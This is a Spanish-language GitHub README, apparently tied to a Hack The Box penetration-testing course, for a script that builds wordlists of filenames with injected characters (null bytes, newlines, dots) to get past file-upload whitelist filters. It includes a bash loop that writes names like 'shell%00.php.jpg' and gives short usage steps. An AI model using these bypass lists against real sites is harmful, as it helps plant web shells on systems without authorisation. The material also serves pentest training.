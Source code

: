 # Character-Injection-2-extension

Simple script que permite generar diccionarios para la inyeccion de codigos (ej. %00) y lograr el bypass de file upload, el scrip generar diccionarios con la inyeccion de codigo en las 3 siguientes posisiones, al comienzo shell%00.php.png en medio shell.php%00.png y al final shell.php.png%00 lo que permitira mediante ataque de diccionario adivinar en donde es vulnerable y permitir la carga de archivos maliciosos. (https://academy.hackthebox.com/module/136/section/1289) CPTS - Filtros de lista blanca, basicamente es el siguiente script, "pero mejorado".

for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done

## New Script

## IMG 1

Ingresa el nombre de la carga util y la extension permitida por la pagina donde cargaras el archivo (ej. shell y .jpg).

![Image](https://github.com/user-attachments/assets/6a20b497-4376-48d6-8098-01127ec288ba)

## IMG 2

Se crearan 4 diccionarios o wordlist.

![Image](https://github.com/user-attachments/assets/b6f50a57-28a5-4407-980e-22c6c51df185)

## IMG 3

Imagen de ejemplo de creacion.

![Image](https://github.com/user-attachments/assets/3f280d48-6031-4721-8eff-30b57e4b9fc1)

## IMG 4

![Image](https://github.com/user-attachments/assets/921d9268-321a-4ae2-bad3-b02beab2af4d)

## IMG 5

![Image](https://github.com/user-attachments/assets/5a91e1e9-38a5-4dc6-bcdf-1b8c3d587c0a)

## Uso

Solo descarga la herramienta.

Luego dale permisos con chmod +x

y ejecuta.
